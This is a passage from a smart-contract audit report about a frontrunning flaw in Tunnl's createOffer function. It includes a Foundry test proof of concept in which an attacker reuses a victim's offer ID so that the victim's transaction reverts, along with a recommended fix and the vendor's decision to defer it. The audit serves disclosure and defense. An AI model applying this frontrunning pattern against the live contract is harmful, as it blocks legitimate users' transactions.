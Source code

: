 **Impact:** We evaluate the impact to be Medium because the attack does not directly affect users' funds and is not economically beneficial for the attacker.

**Proof Of Concept:**
```solidity
    function test_FrontrunCreateOffer() public {
        address alice = address(0x10); // malicious actor
        address bob = address(0x20); // legitimate actor

        uint32 acceptanceDurationSeconds = tunnlTwitterOffers.getConfig().minAcceptanceDurationSeconds;
        uint offerAmount = 1e6;
        uint maxValueUsdc = tunnlTwitterOffers.getConfig().flatFeeUsdc + offerAmount;
        uint minAllowance = tunnlTwitterOffers.getConfig().flatFeeUsdc;

        // alice allows minimal amount of USDC to the contract
        vm.startPrank(alice);
        mockUsdcToken.mint(alice, minAllowance);
        mockUsdcToken.approve(address(tunnlTwitterOffers), minAllowance);
        vm.stopPrank();

        // bob intends to create an offer with id = 101010 (this is normally calculated offchain but here we just use an imaginary id)
        vm.startPrank(bob);
        mockUsdcToken.mint(bob, maxValueUsdc);
        mockUsdcToken.approve(address(tunnlTwitterOffers), maxValueUsdc);
        vm.stopPrank();

        offerId = bytes32(uint(0x101010));

        // alice front runs bob and creates an offer with the same id
        vm.startPrank(alice);
        tunnlTwitterOffers.createOffer(offerId, 0, acceptanceDurationSeconds, 4 days);
        vm.stopPrank();

        // now bob's offer creation reverts
        vm.startPrank(bob);
        vm.expectRevert("Offer already exists");
        tunnlTwitterOffers.createOffer(offerId, offerAmount, acceptanceDurationSeconds, 4 days);
        vm.stopPrank();
    }
```
**Recommended Mitigation:** We recommend adding a mechanism to verify the `msg.sender` with the `offerId` in `createOffer()`.

**Tunnl:** We have decided not to address this frontrunning issue prior to the mainnet Beta launch as we think the risk of a competitor attempting to attack our product is very low within the first few weeks after launch.
HOWEVER: we will make a backlog task on our side to address this issue in our next iteration to prevent attacks from malicious competitors.
A potential solution would be to have the backend generate an approval signature which is given to the user and must be included in their `createOffer` transaction.
